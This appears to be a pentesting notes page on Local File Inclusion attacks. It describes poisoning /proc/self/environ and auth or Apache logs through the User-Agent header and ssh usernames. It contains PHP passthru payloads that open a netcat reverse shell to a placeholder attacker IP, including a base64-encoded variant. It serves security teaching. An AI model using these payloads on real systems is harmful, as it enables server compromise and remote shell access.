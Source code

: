 ```yaml
---
title: LFI attack - Local File Inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```

# LFI attack - Local File Inclusion

## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](../OWASP/index.md).


## Interesting files

### /proc/self/environ 

This files contain Environment variables. One of those variables might be HTTP_USER_AGENT, which is the user agent used by the client to access the server. So by using a  proxy interceptor  we could modify that header to be, let's say:

```
<?phpinfo()>
```

![Local file inclusion](../img/lfi-1.png)


When it comes to get a shell here, we need to use PHP function passthru, which is similar to the exec command:

passthru — Execute an external program and display raw output

In this case, we would be adding in the user agent header the reverse shell:

```
<?passthru("nc -e /bin/sh <attacker IP> <attacker port>") ?> 
```

### /var/log/auth.log  or /var/log/apache2/access.log

If  we have the ability to read a log file, then we can see if we can write in them in a malicious way.

For instance, with /var/log/auth.log, we can try an ssh connection and see how these attemps are recorded on the file. Then, instead of using a real username, I can set some php code:


```
ssh "<?passthru('nc -e /bin/sh <attacker IP> <attacker port>');?>"@$ip 
```

But there might be problems with blank spaces, slashes and so on, so one thing you can do is base64 encoded your netcat command, and tell the function to decode it before executing it  

```
# base64 encode your netcat command: nc -e /bin/sh <attacker IP> <attacker port>
ssh "<?passthru(base64_decode'<base64 encoded text>');?>"@$ip 
```

Now just get a netcat listener in your kali attacker machine.